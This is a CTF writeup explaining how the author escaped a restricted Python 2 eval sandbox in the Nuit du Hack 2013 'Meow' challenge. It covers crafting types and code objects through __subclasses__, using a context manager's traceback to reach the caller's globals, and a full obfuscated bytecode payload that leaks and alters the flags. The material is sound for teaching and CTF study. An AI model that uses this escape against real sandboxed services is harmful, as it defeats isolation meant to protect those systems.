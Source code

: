 ```yaml
---
title: 'Escapting a Python sandbox (NdH 2013 quals writeup)'
date: 2013-03-10T00:00:00+02:00
draft: false
---
```


The Nuit du Hack CTF 2013 Quals round was taking place yesterday. As usual,
I'll be posting a few writeups about fun exercises and/or solutions from this
CTF. If you want more, my teammate [w4kfu](http://blog.w4kfu.com/) should be
posting some writeups as well on his blog soon.

**TL;DR:**

{{< highlight python >}}
auth(''.__class__.__class__('haxx2',(),{'__getitem__':
lambda self,*a:'','__len__':(lambda l:l('function')( l('code')(
1,1,6,67,'d\x01\x00i\x00\x00i\x00\x00d\x02\x00d\x08\x00h\x02\x00'
'd\x03\x00\x84\x00\x00d\x04\x006d\x05\x00\x84\x00\x00d\x06\x006\x83'
'\x03\x00\x83\x00\x00\x04i\x01\x00\x02i\x02\x00\x83\x00\x00\x01z\n'
'\x00d\x07\x00\x82\x01\x00Wd\x00\x00QXd\x00\x00S',(None,'','haxx',
l('code')(1,1,1,83,'d\x00\x00S',(None,),('None',),('self',),'stdin',
'enter-lam',1,''),'__enter__',l('code')(1,2,3,87,'d\x00\x00\x84\x00'
'\x00d\x01\x00\x84\x00\x00\x83\x01\x00|\x01\x00d\x02\x00\x19i\x00'
'\x00i\x01\x00i\x01\x00i\x02\x00\x83\x01\x00S',(l('code')(1,1,14,83,
'|\x00\x00d\x00\x00\x83\x01\x00|\x00\x00d\x01\x00\x83\x01\x00d\x02'
'\x00d\x02\x00d\x02\x00d\x03\x00d\x04\x00d\n\x00d\x0b\x00d\x0c\x00d'
'\x06\x00d\x07\x00d\x02\x00d\x08\x00\x83\x0c\x00h\x00\x00\x83\x02'
'\x00S',('function','code',1,67,'|\x00\x00GHd\x00\x00S','s','stdin',
'f','',None,(None,),(),('s',)),('None',),('l',),'stdin','exit2-lam',
1,''),l('code')(1,3,4,83,'g\x00\x00\x04}\x01\x00d\x01\x00i\x00\x00i'
'\x01\x00d\x00\x00\x19i\x02\x00\x83\x00\x00D]!\x00}\x02\x00|\x02'
'\x00i\x03\x00|\x00\x00j\x02\x00o\x0b\x00\x01|\x01\x00|\x02\x00\x12'
'q\x1b\x00\x01q\x1b\x00~\x01\x00d\x00\x00\x19S',(0, ()),('__class__',
'__bases__','__subclasses__','__name__'),('n','_[1]','x'),'stdin',
'locator',1,''),2),('tb_frame','f_back','f_globals'),('self','a'),
'stdin','exit-lam',1,''),'__exit__',42,()),('__class__','__exit__',
'__enter__'),('self',),'stdin','f',1,''),{}))(lambda n:[x for x in
().__class__.__bases__[0].__subclasses__() if x.__name__ == n][0])})())
{{< /highlight >}}

One of the exercises, called "Meow", gave us a remote restricted Python shell
with most builtins disabled:

{{< highlight python >}}
{'int': <type 'int'>, 'dir': <built-in function dir>,
'repr': <built-in function repr>, 'len': <built-in function len>,
'help': <function help at 0x2920488>}
{{< /highlight >}}

A few functions were available, namely `kitty()` displaying an ASCII cat,
and `auth(password)`. I assumed our goal was to bypass the authentication or to
find the password. Unfortunately, our Python commands are passed to `eval` in
expression mode, which means we can't use any Python statement: no assignment,
no print, no function/class definitions, etc. This makes things a lot harder to
work with. We'll have to use some Python magic (this writeup will be full of
it, I promise).

I first assumed `auth` was simply comparing the password to a constant string.
In this case, I could use a custom object with `__eq__` overwritten to always
return True. However, there is no trivial way to craft that object: we can't
define our own classes using the `class Foo:` syntax, we can't modify an
already existing object (no assignment), etc. This is where our first bit of
Python magic comes into place: we can directly instantiate a `type` object to
create a class object, then instantiate this class object. Here is how you
would do it:

{{< highlight python >}}
type('MyClass', (), {'__eq__': lambda self: True})
{{< /highlight >}}

However, we can't use `type` here: it is not defined in our builtins. We can
use a second trick: every Python object has a `__class__` attribute, which
gives us the type of an object. For example, `''.__class__` is `str`. But more
interesting: `str.__class__` is `type`! Which means we can
use `''.__class__.__class__` to instantiate our new type.

Unfortunately, the `auth` function is not simply comparing our object to a
string. It's doing a lot of other things to it: slicing it to 14 characters,
taking its length via `len()` and calling `reduce` with a strange `lambda` as
well. Without the code it's going to be hard to guess how to make an object
that behaves exactly like the function wants, and I don't like guessing. We
need more magic!

Enter code objects. Python functions are actually objects which are made of a
code object and a capture of their global variables. A code object contains the
bytecode of that function, as well as the constant objects it refers to, some
strings and names, and other metadata (number of arguments, number of locals,
stack size, mapping from bytecode to line number). You can get the code object
of a function using `myfunc.func_code`. This is forbidden in the restricted
mode of the Python interpreter, so we can't see the code of
the `auth` function. However, we can craft our own functions like we crafted
our own types!

You might wonder: why do we need to use code objects to craft functions when we
already have `lambda`? Simple: lambdas cannot contain statements. Random
crafted functions can! For example, we can create a function that prints its
argument to stdout:

{{< highlight python >}}
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
{{</ highlight >}}

There is a slight problem with this though: to get the type of a code object,
we need to access the `func_code` attribute, which is restricted. Fortunately,
we can use even more Python magic to find our type without accessing forbidden
attributes.

In Python, a type object has a `__bases__` attribute which returns the list of
all its base classes. It also has a `__subclasses__` method that returns the
list of all types that inherit from it. If we use `__bases__` on a random type,
we can reach the top of the type hierarchy (`object` type), then read the
subclasses of `object` to get a list of all types defined in the interpreter:

{{< highlight python >}}
>>> len(().__class__.__bases__[0].__subclasses__())
81
{{</ highlight >}}

We can then use this list to find our `function` and `code` types:

{{< highlight python >}}
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'function'][0]
<type 'function'>
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'code'][0]
<type 'code'>
{{</ highlight >}}

Now that we can build any function we want, what can we do? We can't directly
access the non restricted builtins: the functions we craft are still executed
in the restricted environment. We can get a non sandboxed function to call us:
the `auth` function call the `__len__` method of the object that we pass as a
parameter. This is however not enough to get out of the sandbox: our globals
are still the same and we can't for example import a module. I tried to look at
all the classes we could access via the `__subclasses__` trick to see if we
could get a reference to a useful module through there, but no dice. Even
getting Twisted to call one of our crafted functions via the `reactor` was not
enough. We could try to get a traceback object and use it to browse the stack
frames of our callers, but the only trivial ways to get a traceback object are
via the `inspect` or the `sys` modules which we can't import. After being
blocked on that problem, I went to work on other problems, slept a lot, and
woke up to the solution I needed!

There actually is another way to get a traceback object in Python without using
the standard library: context managers. They are a new feature of Python 2.6
which allow some kind of object life scoping in Python:

{{< highlight python >}}
class CtxMan:
    def __enter__(self):
        print 'Enter'
    def __exit__(self, exc_type, exc_val, exc_tb):
        print 'Exit:', exc_type, exc_val, exc_tb

with CtxMan():
    print 'Inside'
    error

# Output:
# Enter
# Inside
# Exit: <type 'exceptions.NameError'> name 'error' is not defined
        <traceback object at 0x7f1a46ac66c8>
{{</ highlight >}}

We can create a context manager object which will use the traceback object
passed to `__exit__` to display the global variables of our caller, caller
which is out of the restricted environment. To do that, we use a combination of
all our previous tricks. We create an anonymous type defining `__enter__` as a
simple lambda and `__exit__` as a lambda that accesses what we want in the
traceback and passes it to our `print` lambda (remember, we can't use
statements):

{{< highlight python >}}
''.__class__.__class__('haxx', (),
  {'__enter__': lambda self: None,
   '__exit__': lambda self, *a:
     (lambda l: l('function')(l('code')(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S',
                                        (None,), (), ('s',), 'stdin', 'f',
                                        1, ''), {})
     )(lambda n: [x for x in ().__class__.__bases__[0].__subclasses__()
                    if x.__name__ == n][0])
     (a[2].tb_frame.f_back.f_back.f_globals)})()
{{</ highlight >}}

We need to go deeper! Now, we need to use this context manager (that we will
call `ctx` in our next code snippets) in a function that will purposefully
raise an error in a `with` block:

{{< highlight python >}}
def f(self):
    with ctx:
        raise 42
{{</ highlight >}}

And we put `f` as the `__len__` of our crafted object that we pass to
the `auth` function:

{{< highlight python >}}
auth(''.__class__.__class__('haxx2', (), {
  '__getitem__': lambda *a: '',
  '__len__': f
})())
{{</ highlight >}}

Refer to the beginning of the article for the "real" inlined code. When ran on
the server, this causes the Python interpreter to run our `f` function, go
through the crafted context manager `__exit__`, which will access the globals
from our caller, which contain these two interesting values:

```
'FLAG2': 'ICanHazUrFl4g', 'FLAG1': 'Int3rnEt1sm4de0fc47'
```

Two flags?! Turns out that the same service was used for two successive
exercises. Double kill!

For more fun, by accessing the globals we can do more than simply reading: we
can also modify the flags! Using `f_globals.update({ 'FLAG1': 'lol', 'FLAG2':
'nope' })` the flags are changed until the next server restart. This was
apparently not planned by the organizers.

Anyway, I still don't know how we were supposed to solve this challenge
normally, but I think this "generic" solution is a good way to introduce people
to some nice Python black magic. Use it carefully, it's easy to get Python to
segfault using crafted code objects (exploiting the Python interpreter and
running an x86 shellcode via crafted Python bytecode will be left as an
exercise for the reader). Thanks to the Nuit du Hack organizers for this nice
exercise.

